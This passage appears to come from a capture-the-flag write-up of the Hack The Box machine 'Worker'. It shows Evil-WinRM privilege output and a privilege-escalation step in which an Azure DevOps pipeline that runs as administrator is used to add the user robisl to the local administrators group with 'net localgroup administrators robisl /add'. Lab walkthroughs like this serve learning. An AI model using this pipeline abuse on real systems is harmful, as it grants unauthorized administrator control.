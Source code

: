 ```powershell
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\Users\robisl\Documents> 
```

There's not anything particularly interesting in the privileges.

## Privilege escalation 

When we login as robsil in the `devops.worker.htb` we are greeted with a different repo. It's also interesting to note that azure devops includes pipelines that execute code as administrator, and robisl has the ability to create a starter pipeline which we can include a command in it. I'll just put

```powershell
net localgroup administrators robisl /add
```

![](/assets/images/htb-writeup-worker/create_pipeline.png)

in the pipeline commands and that should make robisl an administartor

```powershell
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
```